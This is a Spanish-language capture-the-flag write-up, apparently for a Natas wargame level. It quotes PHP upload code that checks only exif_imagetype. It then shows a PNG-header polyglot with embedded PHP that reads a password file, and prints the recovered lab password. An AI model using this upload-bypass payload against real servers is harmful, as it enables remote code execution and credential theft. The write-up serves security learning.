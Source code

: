 Si inspeccionamos el HTML, vemos que es similar al caso anterior. Al leer el
código fuente, notamos que las funciones auxiliares son las mismas, pero cambia
la lógica del guardado:

```php
if(array_key_exists("filename", $_POST)) {
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]);

    $err=$_FILES['uploadedfile']['error'];
    if($err){
        if($err === 2){
            echo "The uploaded file exceeds MAX_FILE_SIZE";
        } else{
            echo "Something went wrong :/";
        }
    } else if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) {
        echo "File is not an image";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
```

El código lee las primeros bytes de la imágen para definir que tipo de imágen
es. Si no es un imágen, devuelve error.

Debemos armar un archivo php cuyos primeros bytes sean similares a los de una
imágen.

```php
PNG

   IHDR         %ÛVÊ   PLTE   §z=Ú   tRNS @æØf   
IDAT×c`    â!¼3    IEND®B`

<?php
readfile("/etc/natas_webpass/natas13");
?>
```

Al igual que el nivel anterior, enviamos el archivo y lo abrimos para obtener la
contraseña del siguiente nivel.

```txt
qPazSJBmrmU7UQJv17MHk1PGC4DxZMEP
```
